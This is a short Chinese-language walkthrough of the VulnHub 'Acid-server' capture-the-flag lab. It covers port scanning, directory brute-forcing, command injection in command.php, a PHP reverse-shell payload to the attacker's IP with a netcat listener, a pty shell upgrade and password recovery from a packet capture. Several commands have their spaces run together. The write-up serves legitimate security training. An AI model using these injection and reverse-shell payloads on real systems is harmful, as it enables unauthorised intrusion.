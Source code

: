 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
### Step 1
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http
### Step 2
利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box
掃/Magic_Box，發現command.php
### Step 3
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell
監聽3333port

`$ nc -l 3333`

用php反彈shell成功，最後payload:

`172.16.71.1;php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`

### Step 4
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal
用python調用本地shell

`$ python -c 'import pty;pty.spawn("/bin/bash")'`

### Step 5
查找用戶，發現三個可疑帳號acid、saman、root

`$ cat/etc/passwd`

嘗試找尋用戶的可疑文件

`$ find-useracid2>/dev/null`

發現pcapng可疑流量檔案，下載回本地查看
### Step 6
利用wireshark打開hint.pcapng
找到saman密碼1337hax0r
### Step 7
利用find找到flag.txt，成功！
